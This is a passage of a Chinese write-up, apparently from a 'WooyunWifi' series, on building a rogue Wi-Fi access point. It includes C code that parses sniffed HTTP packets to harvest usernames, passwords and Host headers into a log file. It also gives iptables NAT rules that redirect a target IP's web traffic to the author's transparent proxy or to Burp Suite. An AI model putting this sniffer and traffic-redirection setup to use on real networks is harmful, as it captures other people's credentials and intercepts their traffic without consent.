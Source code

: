 ```
                if(!strstr(pass,"Referer:"))
                {
                    strip_pass(basepath,pass,host);
                    printf("\n\n");
                }
                strcpy(pass,"0");
            }
        }
        else if(strstr(buffer,"Host:"))
        {
            //去掉 0x0a 和 0x0d
            buffer[strlen(buffer)-2]='\0';
            strcpy(host,buffer);
        }
        else if(strstr(buffer,"user")&&strstr(buffer,"pass"))
        {
            //去掉 0x0a 和 0x0d
            buffer[strlen(buffer)-2]='\0';
            strcpy(pass,buffer);
        }
        //buffer[strlen(buffer)-2]='\0';
    }
    return 0;
} 
```

概括起来我们的自动机做了以下事情：

1、 Ngrep 嗅探 PHP 指定的 device 数据包，筛选 80 端口 HTTP 请求，然后把 stdout 转接到我们的自动机 stdin 上
2、 C 语言自动机不断按行读取 stdin 中的输入，不停检测密码信息以及 Host 信息，但数据包结束后，判断是否截获密码信息，如果是，追加写入文本记录文件
3、 自动机本身不会停止工作，必须依靠 PHP+Shellscript 来外部 kill 掉

## 0x04 为什么不用 python：

* * *

字符处理，还是 python 方便，但是我们真的很需要“效率”，无论是从内存占用还是数据包延迟来说，C 语言仍然占据了不可替代的优势（其实也没那么悬殊，只不过自动机程序比较简单，因此对 C 熟练的话不会很吃力） 还有一个重要的原因是：当初我以为会涉及到 kernel 的数据包修改，后来写完自动机才发现原来想多了，所以 C 语言反倒只用来写了几个自动机，唉……

## 0x05 使用 iptables 重定向流量

例：

```
iptables -t nat -A PREROUTING -s 192.168.16.249 -p tcp --dport 80 -j DNAT --to-destination 192.168.16.134:8029
iptables -t nat -A POSTROUTING -p tcp -d 192.168.16.134 --dport 80 -j MASQUERADE
iptables -t nat -A POSTROUTING -p tcp -d 192.168.16.134 --dport 8029 -j MASQUERADE 
```

由此一方面可以将流量重定向到自己的 proxy 上（是 transparrent proxy），也可以直接转发到其他 ip（如 burpsuite）

至此，WooyunWifi 设计完成，大家可能会觉得“哇，还是很简单的嘛”，如果大家真的打算试一下全过程，请务必要看《WooyunWifi 第五章：十万个变砖方法》
